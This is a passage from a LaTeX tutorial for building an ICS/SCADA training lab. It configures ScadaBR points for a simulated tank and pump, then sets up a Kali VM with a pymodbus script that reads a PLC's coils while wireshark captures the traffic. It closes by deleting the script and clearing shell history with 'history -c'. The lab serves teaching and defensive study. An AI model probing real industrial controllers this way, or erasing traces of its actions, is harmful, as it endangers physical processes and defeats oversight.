The rest of these steps are intended to be be performed on one of the other other VMs connecting to the ScadaBR machine through it's web interface (\url{192.168.5.9:8080/ScadaBr}).
\item Login to the web-interface as admin\
\item Navigate to the 'data sources' section. Add a new data source. Fill in the given field as shown below:\\

\includegraphics[width=\textwidth]{figures/Installation07.PNG}
\item Save the new data source
\item Add the following new 'Points':\\
\begin{tabular}[l]{| c | c | c | c | c | c |}
	\hline
	\textbf{Name} & \textbf{Data Type} & \textbf{Status} & \textbf{Slave} & \textbf{Range} & \textbf{Offset (0-based)} \\
	\hline
	drain\_pump & Binary & Enabled & 1 & Coil status & 1 \\
	\hline
	input\_valve & Binary & Enabled & 1 & Coil status & 0 \\ 
	\hline
	overflow & Binary & Enabled & 1 & Coil status & 2 \\ 
	\hline
	water\_level & Numeric & Enabled & 1 & Input register & 0 \\ 
	\hline
\end{tabular}
\item Navigate to the 'Graphical views' section
\item Create a 'new view' that looks like this: \\

\includegraphics[width=\textwidth]{figures/Installation08.PNG}\\
The important thing is to implement the following mappings:
\ben
	\item Tank $\rightarrow$ water\_level (range of 0-500)
	\item Pump/motor $\rightarrow$ drain\_pump
	\item Valve $\rightarrow$ input\_valve
	\item LED $\rightarrow$ overflow
	\item button (write) $\rightarrow$ input\_valve
	\item button (write) $\rightarrow$ drain\_pump
	\item The rest are simple setpoints that are used for labeling purposes only.
\een
\item Save the 'Graphical view'.
\item Logout.
\een
\textbf{Kali}\\
This section will describe the process used to create the Kali box used.
\ben
\item Navigate in a web browser to "\url{http://cdimage.kali.org/kali-2019.1/kali-linux-light-2019.1-amd64.iso}". This will begin downloading the image file (iso) used in the installation of Kali-Light 2018.4 in the next step.
\item (\textbf{OPTIONAL}) Verify the integrity of the downloaded iso file using your choice of hashing algorithm.
\item Create a new VM, using the same method utilized with the OpenPLC box, but instead select the Kali iso image. Use the same hardware settings as before.
\item Power on the VM and follow the on-screen installation instructions.
\item After the reboot. Login to the new Kali box.
\item Run \textit{sudo apt-get update} to fetch new updates.\\

\includegraphics[width=\textwidth]{figures/Installation04.PNG}
\\item Install wireshark with the command "\textit{sudo apt-get install wireshark}"
\item Install nmap with the command "\textit{sudo apt-get install nmap}"\\
\textbf{NOTE: }Do NOT run nmap! We are still using NAT at this point. Running nmap will result in the scanning of networks that you may or may NOT be authorized to scan.
\item Install PyModbus package using the following commands:
\ben
\item "\textit{sudo pip install --upgrade pip}"
\item "\textit{sudo pip install pymodbus --upgrade}"
\een 
\item Install IPython using the command "\textit{sudo apt-get install ipython}"
\item Change the ip of the machine using the following commands:
\ben
	\item "\textit{ip addr flush dev eth0}"
	\item "\textit{ip addr add 192.168.5.90/24 dev eth0}"
\een
\item Create a script that will create the modbus packets that we need to capture.
\begin{lstlisting}
#!/usr/bin/env python
from pymodbus.client.sync import ModbusTcpClient
client = ModbusTcpClient('192.168.5.12')
for x in range(0,100):
result = client.read_coils(x,1)
print(result)
client.close()
\end{lstlisting}
\item Open wireshark using "\textit{wireshark}". Obtain a packet capture off of the 'eth0' interface. This is done by double-clicking on 'eth0' and then clicking on the start capture button.
\item Run the script using the command "\textit{python modScan.py}"
\item When it's done, stop the capture by hitting the 'stop' button in wireshark. Save the packetcapture under the name: "modbus.pcapng".
\item Change the ip of the machine using the following commands:
\ben
\item "\textit{nano /etc/network/interfaces}"
\item Edit the interfaces file so that it looks like this:\\

\includegraphics[scale=.43]{figures/Installation06.PNG}
\item Restart networking services using "\textit{service networking restart}"
\een
\item Remove the script using the command "\textit{rm modScan.py}"
\item Erase the history "\textit{history -c}"
\een



%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%
%\pagebreak
%\textbf{Change Log}\\\\
%
%\begin{tabular}{| C{5cm} | C{5cm} | C{5cm} |}
%\hline
%\textbf{Change(s)} & \textbf{Contributor(s)} & \textbf{Effective Date} \\
%\hline
%First draft of tutorial & Matthew Kirkland & January 28th, 2019 \\
%\hline
%Filled in Setup section & Matthew Kirkland & February 11th, 2019 \\
%\hline
%Finished final draft & Matthew Kirkland & February 20th, 2019 \\
%\hline
%\end{tabular}
%
%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%
\pagebreak

% this style of bibliography shows urls
\bibliographystyle{IEEEtran}
\bibliography{references/bibliography}{}

\end{document}